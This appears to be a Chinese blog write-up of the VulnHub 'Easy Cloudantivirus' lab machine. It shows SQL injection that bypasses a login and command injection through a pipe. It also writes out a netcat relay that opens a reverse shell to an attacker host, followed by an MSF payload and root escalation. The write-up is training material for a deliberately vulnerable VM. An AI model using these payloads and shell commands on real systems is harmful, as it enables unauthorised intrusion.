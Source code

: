 ```yaml
---
title: VulnHub靶场 Easy Cloudantivirus
description: VulnHub靶场 Easy Cloudantivirus WP
pubDate: 10 19 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-8.png
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


进行二层发现

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-1.png)

目标锁定 `192.168.135.205`，对其进行端口扫描，得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-2.png)

在目标 IP 下的 8080 端口，有一个 Python 的 WEB 服务，访问页面得到如下结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-3.png)

要求填写邀请码进行使用。进行 FUZZ 测试，在测试 `"` 的时候，出现的 sqlite3 报错

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-4.png)

直接把代码爆出来了。

```python
def login():
    password = request.form['password']
    if len(c.execute('select * from code where password="' + password + '"').fetchall()) > 0:
        session['logged_in'] = True
		return 'Redirecting to /scan. <meta http-equiv="refresh" content="0; url=/scan" />'
    else:
        return "WRONG INFORMATION"
```

看一下 sql 语句

```sql
select * from code where password="' + password + '"
```

简单构建一下

```sql
select * from code where password="' + " or 1=1# + '"
```

即输入 `" or 1=1#`，进行尝试，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-5.png)

额……换个 `--` 注释试试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-6.png)

成功，返回了一个 `ls -l` 的命令结果。说明后端执行了命令，试试管道符

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-7.png)

成功执行命令，我们借此可以反弹 shell，发现目标靶机自带 nc，尝试连接

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-8.png)

失败了，可能是版本不对……，想到一个法子

```shell
nc 192.168.135.192 9999 | /bin/bash | nc 192.168.135.192 8888
```

第一个的结果传递给 `/bin/bash`，然后再传递给第二个连接，这样不就另类的实现了 shell 嘛

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-9.png)

成功。不过这样有点麻烦，直接传一个 MSF 马进去

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-10.png)

成功喽。有一个数据库文件，下载下来，啥也没有。

再进行信息收集的时候，发现在 `/home/scanner` 下，有一个可执行的，有 sudo 权限的，属主为 root 用户的 c 源文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-11.png)

查看一下源码内容

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-12.png)

这是一个更新脚本，要求传递两个参数，拿 nc 简单试试

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-14.png)

查看反弹结果

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-13.png)

成功得到 root 权限，然后再传 MSF 马，得到 root 权限的 MSF 后门

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Easy%20Cloudantivirus/002%20Easy%20Cloudantivirus-15.png)

成功拿到 root 权限

